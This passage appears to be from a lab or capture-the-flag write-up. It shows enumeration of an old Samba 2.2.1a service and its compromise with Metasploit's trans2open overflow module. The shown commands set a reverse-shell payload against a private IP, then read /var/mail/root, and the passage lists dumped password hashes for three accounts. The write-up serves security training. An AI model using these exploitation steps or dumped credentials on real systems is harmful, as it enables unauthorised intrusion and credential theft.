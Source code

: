 For SMB enumeration, I utilized Metasploit to probe port 139 and determine the SMB service version.

![037e397b76f4caac1f3932405b9f48f4.png](../../_resources/037e397b76f4caac1f3932405b9f48f4.png)


It provided me the version of the Samba service that was — “Samba 2.2.1a”. With the SMB version identified as Samba 2.2.1a, I simply googled for relevant exploits targeting this version.


![100cc3e90689d0da60dc6ce5c34c50e7.png](../../_resources/100cc3e90689d0da60dc6ce5c34c50e7.png)

I came across the "Samba trans2open Overflow (Linux x86)" exploit, which is designed for Samba versions 2.2.0 to 2.2.8 on Linux systems and is a strong candidate for exploiting this target.

![6d110b9c3008bb41f71d9b42fb85a864.png](../../_resources/6d110b9c3008bb41f71d9b42fb85a864.png)

---


## Exploitation

1. After identifying the appropriate exploit, I returned to Metasploit to search for available modules targeting Samba.

![a662268e766ba36c5bf6891d3295f256.png](../../_resources/a662268e766ba36c5bf6891d3295f256.png)

Now I will set a suitable reverse shell payload and configured RHOST to the target’s IP to prepare the exploit for execution.

````
msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.242.73
RHOSTS => 192.168.242.73
msf6 exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp

````

Then simply run the exploit by typing `run` orr `exploit` if you wanna look cool and voilla!, I get the root shell.

![a86f40a40eef8a1678980e01d583c8df.png](../../_resources/a86f40a40eef8a1678980e01d583c8df.png)

2. We can now read the `/var/mail/root` file to complete the challenge:

````
cat /var/mail/root
````

![ba3556eb8fa7411d80643b3cca5d718c.png](../../_resources/ba3556eb8fa7411d80643b3cca5d718c.png)


---
## Loot

### Hashes
````
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::
````

---
